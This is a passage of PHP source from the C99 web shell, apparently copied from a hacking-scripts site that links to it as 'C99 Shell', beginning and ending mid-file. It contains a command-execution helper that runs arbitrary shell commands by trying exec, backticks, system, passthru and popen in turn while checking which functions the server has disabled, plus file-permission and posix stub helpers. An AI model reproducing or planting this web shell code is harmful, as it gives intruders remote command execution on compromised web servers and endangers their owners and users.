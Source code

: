 }
}
if (!function_exists("myshellexec"))
{
function myshellexec($cmd)
{
 global $disablefunc;
 $result = "";
 if (!empty($cmd))
 {
  if (is_callable("exec") and !in_array("exec",$disablefunc)) {exec($cmd,$result); $result = join("\n",$result);}
  elseif (($result = `$cmd`) !== FALSE) {}
  elseif (is_callable("system") and !in_array("system",$disablefunc)) {$v = @ob_get_contents(); @ob_clean(); system($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v;}
  elseif (is_callable("passthru") and !in_array("passthru",$disablefunc)) {$v = @ob_get_contents(); @ob_clean(); passthru($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v;}
  elseif (is_resource($fp = popen($cmd,"r")))
  {
   $result = "";
   while(!feof($fp)) {$result .= fread($fp,1024);}
   pclose($fp);
  }
 }
 return $result;
}
}
if (!function_exists("tabsort")) {function tabsort($a,$b) {global $v; return strnatcmp($a[$v], $b[$v]);}}
if (!function_exists("view_perms"))
{
function view_perms($mode)
{
 if (($mode & 0xC000) === 0xC000) {$type = "s";}
 elseif (($mode & 0x4000) === 0x4000) {$type = "d";}
 elseif (($mode & 0xA000) === 0xA000) {$type = "l";}
 elseif (($mode & 0x8000) === 0x8000) {$type = "-";}
 elseif (($mode & 0x6000) === 0x6000) {$type = "b";}
 elseif (($mode & 0x2000) === 0x2000) {$type = "c";}
 elseif (($mode & 0x1000) === 0x1000) {$type = "p";}
 else {$type = "?";}
 $owner["read"] = ($mode & 00400)?"r":"-";
 $owner["write"] = ($mode & 00200)?"w":"-";
 $owner["execute"] = ($mode & 00100)?"x":"-";
 $group["read"] = ($mode & 00040)?"r":"-";
 $group["write"] = ($mode & 00020)?"w":"-";
 $group["execute"] = ($mode & 00010)?"x":"-";
 $world["read"] = ($mode & 00004)?"r":"-";
 $world["write"] = ($mode & 00002)? "w":"-";
 $world["execute"] = ($mode & 00001)?"x":"-";
 if ($mode & 0x800) {$owner["execute"] = ($owner["execute"] == "x")?"s":"S";}
 if ($mode & 0x400) {$group["execute"] = ($group["execute"] == "x")?"s":"S";}
 if ($mode & 0x200) {$world["execute"] = ($world["execute"] == "x")?"t":"T";}
 return $type.join("",$owner).join("",$group).join("",$world);
}
}
if (!function_exists("posix_getpwuid") and !in_array("posix_getpwuid",$disablefunc)) {function posix_getpwuid($uid) {return FALSE;}}
if (!function_exists("posix_getgrgid") and !in_array("posix_getgrgid",$disablefunc)) {function posix_getgrgid($gid) {return FALSE;}}
if (!function_exists("posix_kill") and !in_array("posix_kill",$disablefunc)) {function posix_kill($gid) {return FALSE;}}
if (!function_exists("parse_perms"))
{

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png